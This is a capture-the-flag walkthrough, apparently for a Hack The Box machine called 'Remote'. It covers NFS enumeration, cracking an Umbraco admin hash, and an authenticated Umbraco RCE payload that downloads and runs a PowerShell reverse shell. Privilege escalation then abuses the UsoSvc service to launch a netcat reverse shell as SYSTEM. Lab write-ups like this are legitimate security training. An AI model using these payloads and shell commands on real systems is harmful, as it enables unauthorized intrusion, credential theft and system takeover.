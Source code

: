# Remote

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.227.150
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-02 04:27 EDT
Warning: 10.129.227.150 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.227.150
Host is up (0.035s latency).
Not shown: 65026 closed tcp ports (conn-refused), 494 filtered tcp ports (no-response)
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
111/tcp   open  rpcbind
135/tcp   open  msrpc
445/tcp   open  microsoft-ds
2049/tcp  open  nfs
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49678/tcp open  unknown
49679/tcp open  unknown
49680/tcp open  unknown
```

### NFS

Network File System was publicly available on port 2049, and this is not a port I see often. This service can have very interesting files and permissions, so let's enumerate it via `showmount`.&#x20;

```
$ showmount -e 10.129.227.150
Export list for 10.129.227.150:
/site_backups (everyone)
```

We can mount onto this and view the files inside:

```
$ sudo mount -t nfs 10.129.227.150:/site_backups /mnt/
$ ls -la
total 159
drwx------  2 nobody 4294967294  4096 Feb 23  2020 .
drwxr-xr-x 19 root   root       36864 Apr 22 05:16 ..
drwx------  2 nobody 4294967294    64 Feb 20  2020 App_Browsers
drwx------  2 nobody 4294967294  4096 Feb 20  2020 App_Data
drwx------  2 nobody 4294967294  4096 Feb 20  2020 App_Plugins
drwx------  2 nobody 4294967294    64 Feb 20  2020 aspnet_client
drwx------  2 nobody 4294967294 49152 Feb 20  2020 bin
drwx------  2 nobody 4294967294  8192 Feb 20  2020 Config
drwx------  2 nobody 4294967294    64 Feb 20  2020 css
-rwx------  1 nobody 4294967294   152 Nov  1  2018 default.aspx
-rwx------  1 nobody 4294967294    89 Nov  1  2018 Global.asax
drwx------  2 nobody 4294967294  4096 Feb 20  2020 Media
drwx------  2 nobody 4294967294    64 Feb 20  2020 scripts
drwx------  2 nobody 4294967294  8192 Feb 20  2020 Umbraco
drwx------  2 nobody 4294967294  4096 Feb 20  2020 Umbraco_Client
drwx------  2 nobody 4294967294  4096 Feb 20  2020 Views
-rwx------  1 nobody 4294967294 28539 Feb 20  2020 Web.config
```

We can go through each of the folders, and we would find an SDF file for Umbraco within `App_Data`, which normally contains hashes.

```
$ ls    
cache  Logs  Models  packages  TEMP  umbraco.config  Umbraco.sdf
```

If we use `strings` on it, we would find a load of input. At the top, it seems that there are SHA1 hashes present:

{% code overflow="wrap" %}
```
$ strings Umbraco.sdf
Administratoradmindefaulten-US
Administratoradmindefaulten-USb22924d5-57de-468e-9df4-0961cf6aa30d
Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c47a1d
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f
smithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749-a054-27463ae58b8e
ssmithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749
ssmithssmith@htb.local8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA={"hashAlgorithm":"HMACSHA256"}ssmith@htb.localen-US3628acfb-a62c-4ab0-93f7-5ee9724c8d32
```
{% endcode %}

The hash can be cracked via `john`.

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash 
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-AxCrypt"
Use the "--format=Raw-SHA1-AxCrypt" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-Linkedin"
Use the "--format=Raw-SHA1-Linkedin" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "ripemd-160"
Use the "--format=ripemd-160" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "has-160"
Use the "--format=has-160" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 128/128 AVX 4x])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
baconandcheese   (?)     
1g 0:00:00:00 DONE (2023-05-02 04:34) 1.538g/s 15113Kp/s 15113Kc/s 15113KC/s baconandchipies1..baconandcabbage
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
Session completed. 
```

So now we have some credentials at least.

### Umbraco RCE

There were hints that Umbraco was used to host the sites, so let's view port 80. It seems to be a blog page:

<figure><img src="../../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

The login page for the website is located at the `/Umbraco` directory. We can login with the credentials and email we found earlier.

<figure><img src="../../../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>

After logging in, we can enumerate the version that it is running.

<figure><img src="../../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

This version of Umbraco is vulnerable to an Authenticated RCE exploit:

```
$ searchsploit umbraco  
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Umbraco CMS - Remote Command Execution (Metasploit)        | windows/webapps/19671.rb
Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution | aspx/webapps/46153.py
```

We can use the PoC for the first one, and edit it for this machine.

```python
payload = '<?xml version="1.0"?><xsl:stylesheet version="1.0" \
xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" \
xmlns:csharp_user="http://csharp.mycompany.com/mynamespace">\
<msxsl:script language="C#" implements-prefix="csharp_user">public string xml() \
{ string cmd = "-c iex (iwr http://10.10.14.13/rev.ps1 -usebasicparsing)"; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
 proc.StartInfo.FileName = "powershell.exe"; proc.StartInfo.Arguments = cmd;\
 proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true; \
 proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; } \
 </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/>\
 </xsl:template> </xsl:stylesheet> ';

login = "admin@htb.local";
password="baconandcheese";
host = "http://10.129.227.150";
```

Take note of the `cmd` and `FileName` parameter in the `payload` variable. In my case I just used Powershell to download and execute a reverse shell script.

<figure><img src="../../../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### PowerUp

We can first enumerate our privileges as the user:

```
PS C:\windows\tasks> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disable
```

We see that we have a ton of privileges, and most importantly SeImpersonatePrivilege is enabled. This means that we probably have some cotnrol over services and this could be used for PE. I used `PowerUp.ps1` to exploit this system.&#x20;

```
PS C:\windows\tasks> wget 10.10.14.13:8000/powerup.ps1 -O powerup.ps1
PS C:\windows\tasks> . .\powerup.ps1
PS C:\windows\tasks> Invoke-AllChecks


Privilege   : SeImpersonatePrivilege
Attributes  : SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
TokenHandle : 1580
ProcessId   : 4156
Name        : 4156
Check       : Process Token Privileges

ServiceName   : UsoSvc
Path          : C:\Windows\system32\svchost.exe -k netsvcs -p
StartName     : LocalSystem
AbuseFunction : Invoke-ServiceAbuse -Name 'UsoSvc'
CanRestart    : True
Name          : UsoSvc
Check         : Modifiable Services

UnattendPath : C:\Windows\Panther\Unattend.xml
Name         : C:\Windows\Panther\Unattend.xml
Check        : Unattended Install Files
```

We have control over the `UsoSvc` service. With this, we can run commands as the SYSTEM user. All we need to do is download `nc.exe` to the machine and run it as the administrator.

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell">wget 10.10.14.13/nc64.exe -O nc.exe
<strong>Invoke-ServiceAbuse -ServiceName 'UsoSvc' -Command 'C:\Windows\Tasks\nc.exe 10.10.14.13 4444 -e cmd.exe'
</strong></code></pre>

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Rooted!
